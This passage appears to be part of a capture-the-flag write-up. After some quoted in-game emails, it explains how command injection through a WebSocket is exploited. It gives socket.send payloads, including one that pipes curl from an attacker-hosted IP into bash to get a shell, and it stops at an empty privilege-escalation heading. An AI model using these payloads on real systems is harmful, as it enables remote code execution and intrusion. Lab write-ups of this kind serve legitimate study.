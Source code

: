```
>some implications there that I'm afraid to pursue too
>much further.  I'll talk to Tracer.  Proceed with caution.
>
>-P
```

```
From: ClassicMovies.pcx3345:ABS
To: Paul Denton//NYCNET.33.34.4346
Subject: Account Verification

Mr. Denton:

We've recieved your order for "Blue Harvest" and "See You Next Wednesday."  At
your earliest possible convenience, please remit c110 at which point they will
be shipped immediately.

 Thanks for your business,

 Marcy Plaigrond
 Vibrant Videos, Inc.
```

That's all we can find for the id fuzzing part, if we remember the script opens a `websocket`, we can manipulate this WebSocket to execute commands using:

```
socket.send
```

This works with `"$()"`, thanks to command injection, if we send:

```
socket.send("$(ls)")
```

We can see a `bin` on top, which goes away pretty quickly, this means that command injection is possible, so, getting a shell is possible too, in order to get a shell, we can use `busybox` or create a `index.html` file with these contents:



Now, we need to host it using a python server and use curl to get the file, once the file downloads, we need to use bash to execute it, we can do all this with the following command:

```
socket.send("$(curl http://10.14.21.28/shell|bash)")
```

>Note: Make sure to use only ports `80` and `443` because the server is only able to reach them on those ports:





# PRIVILEGE ESCALATION
---


